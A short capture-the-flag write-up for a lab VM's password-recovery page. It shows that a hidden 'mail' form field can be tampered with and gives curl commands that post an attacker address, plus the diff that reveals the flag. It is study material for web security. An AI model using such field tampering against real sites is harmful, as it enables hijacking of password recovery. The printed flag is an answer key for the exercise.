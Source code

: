 # http://192.168.99.100/?page=recover

looking at the page source we notice the `<form>` element

```html
<form action="#" method="POST">
	<input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
	<input type="submit" name="Submit" value="Submit">
</form>
```

what if we try to change the value of the `mail` ?

```sh
e1z2r10p4% 
e1z2r10p4% curl -s 'http://192.168.99.100/?page=recover' --data 'mail=webmaster%40borntosec.com&Submit=Submit' -o before.html
e1z2r10p4% curl -s 'http://192.168.99.100/?page=recover' --data 'mail=attacker%40email.com&Submit=Submit' -o after.html 
e1z2r10p4% diff before.html after.html 
37c37
< <center><h2 style="margin-top:50px;"></h2><br/><img src="images/WrongAnswer.gif" alt=""></center>
---
> <center><h2 style="margin-top:50px;"> The flag is : 1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center>
e1z2r10p4% 
```

so with the first command we post original form values, and we get the `WrongAnswer.gif`

if we change the value of the `mail` field to something else, the page gives us the flag

##### flag `1d4855f7337c0c14b6f44946872c4eb33853f40b2d54393fbe94f49f1e19bbb0`

nice
